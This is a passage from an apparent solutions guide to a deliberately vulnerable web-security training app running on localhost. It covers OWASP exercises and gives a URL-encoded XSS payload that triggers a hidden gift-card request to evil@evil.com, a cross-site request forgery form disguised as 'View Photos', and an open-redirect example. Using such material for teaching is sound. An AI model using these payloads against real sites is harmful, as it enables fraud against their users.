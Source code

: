 For Python 2, change the first line of that to:

    from urllib import quote

Use the resulting value in the qs parameter:

    http://localhost:8000/csrf/image?qs=%20%20%20%20%20%22%3Bvar%20i%3Ddocument.createElement%28%27img%27%29%3B%20%20%20%20%20i.src%3D%27/csrf/gift-card%3Femail%3Devil%40evil.com%26amount%3D100%27%3B%20%20%20%20%20i.setAttribute%28%27display%27%2C%20%27none%27%29%3B%20%20%20%20%20document.body.appendChild%28i%29%3B%22

This solution is available live in the app after you've tried it with a
non-working qs paramter.


## A8: Cross Site Request Forgery - Third Party Site

In this exercise we're pretending to submit a form from an external location
that will be POSTed to our vulnerable site.

Open up badguys_project/templates/vulnerable/csrf/third_party.html in your
editor and find the "put your form here" comment.

Use the gift card form again for reference to field names:

    http://localhost:8000/csrf/gift-card

Craft a form and add it to the template:

    <form action="http://localhost:8000/csrf/gift-card" method="POST">
        <input type="hidden" name="email" value="evil@evil.com">
        <input type="hidden" name="amount" value="100">
        <input type="submit" value="View Photos">
    </form>

Save the template and reload the page in your browser, then submit the form.

Optionally garnish with innocent-looking kitten photos from Placekitten.com:

    <img src="http://placekitten.com/400/200">


## A9: Using Known Vulnerable Components

No exercises for this section.


## A10: Unvalidated Redirects and Forwards - External Redirects

Grab the redirection link from the exercise:

    http://localhost:8000/redirects-and-forwards/redirect?url=%2Fredirects-and-forwards%2Fredirects

Pick a favorite URL that you'd like to redirect to, such as:

    http://example.com
